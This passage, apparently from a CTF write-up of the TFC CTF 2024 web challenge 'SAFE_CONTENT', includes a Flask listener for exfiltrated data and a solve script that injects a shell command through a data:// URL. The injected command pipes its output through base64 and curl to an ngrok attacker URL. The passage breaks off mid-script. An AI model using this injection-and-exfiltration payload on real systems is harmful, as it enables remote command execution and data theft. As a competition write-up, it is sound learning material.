 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240805153252.png)

Let's decode the base64 encoded result!

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SAFE_CONTENT)-[2024.08.05|15:31:43(HKT)]
└> echo 'dWlkPTEwMDAoc2l1bmFtKSBnaWQ9MTAwMChuYW0pIGdyb3Vwcz0xMDAwKG5hbSksNChhZG0pLDIwKGRpYWxvdXQpLDI0KGNkcm9tKSwyNShmbG9wcHkpLDI3KHN1ZG8pLDI5KGF1ZGlvKSwzMChkaXApLDQ0KHZpZGVvKSw0NihwbHVnZGV2KSwxMDkobmV0ZGV2KSwxMTkod2lyZXNoYXJrKSwxMjIoYmx1ZXRvb3RoKSwxMzQoc2Nhbm5lciksMTQyKGthYm94ZXIpLDE0Myhkb2NrZXIpCg==' | base64 -d 
uid=1000(siunam) gid=1000(nam) groups=1000(nam),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),122(bluetooth),134(scanner),142(kaboxer),143(docker)
```

Boom! We got it!

## Exploitation

Armed with the above information, we can write a solve script to get the flag!

`app.py`, A Python Flask web application to catch incoming POST request:

```python
#!/usr/bin/env python3
from flask import Flask, request
from base64 import b64decode

app = Flask(__name__)

@app.route('/', methods=['POST'])
def index():
    formData = request.form

    result = str()
    for data in formData:
        paddedBase64EncodedResult = data + '=' * (-len(data) % 4)
        result += b64decode(paddedBase64EncodedResult).decode().strip()

    print(f'[+] We successfully received a POST body data:\n{result}')
    return ''

if __name__ == '__main__':
    app.run('0.0.0.0', port=80, debug=True)
```

`solve.py`, A Python script to send our payload to the remote challenge instance:

```python
#!/usr/bin/env python3
import requests
from base64 import b64encode

def solve(attackerUrl, challengeBaseUrl, command):
    payload = f'"" && {command} | base64 | curl -d @- {attackerUrl} #'
    base64EncodedPayload = b64encode(payload.encode()).decode()
    url = f'data://text@localhost/plain,{base64EncodedPayload}'
    print(f'[*] Sending payload: {payload}')
    print(f'[*] Final URL: {url}')

    requests.get(f'{challengeBaseUrl}/', params={ 'url': url })

if __name__ == '__main__':
    attackerUrl = 'https://2322-{REDACTED}.ngrok-free.app/'
    challengeBaseUrl = 'http://challs.tfcctf.com:31936'

    try:
```